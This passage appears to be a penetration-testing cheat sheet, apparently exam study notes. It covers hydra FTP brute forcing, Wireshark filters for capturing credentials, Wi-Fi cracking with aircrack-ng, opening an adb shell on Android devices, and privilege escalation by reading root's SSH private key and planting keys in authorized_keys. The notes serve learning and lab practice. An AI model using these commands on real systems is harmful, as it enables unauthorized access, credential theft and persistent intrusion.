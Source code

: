 hydra -l user -P passlist.txt ftp://10.10.10.10

Wireshark
tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given
tcp.flags.syn == 1   (Which machine for dos)
http.request.method == POST   (for passwords) or click tools ---> credentials
Also
Find FQDN
nmap -p389 –sV -iL <target_list>  or nmap -p389 –sV <target_IP> (Find the FQDN in a subnet/network)

## 9. Cracking Wi-Fi networks
**Cracking Wifi Password**
aircrack-ng [pcap file] (For cracking WEP network)
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)

Android
1- nmap ip -sV -p 5555    (Scan for adb port)
2- adb connect IP:5555    (Connect adb with parrot)
3- adb shell              (Access mobile device on parrot)
4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)



SQLMap - for finding SQL Injection Vulnerabilities
Wpscan - scanning and finding issues in wordpress websites
ADB - for connecting Android devices to PC and binary analysis
Burpsuite - for analysing and manipulating the traffic

## 10. Privilege Escalation Basics
ssh <user_name>@<IP> -p <port>

to check privileges
sudo -l

if there is a user with no pass:
sudo -u <user> /bib/bash
cd \
cd /root
cd .ssh
cat id_rsa
copy the key

nano id_rsa
paste the key
ctrlS ctrlX
chmod 600 id_rsa

ssh root@<IP> -p <port> -i id_rsa
*******************************
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub | ssh USER@HOST "mkdir -p ~/.ssh && cat >> ~/.ssh/authorized_keys"
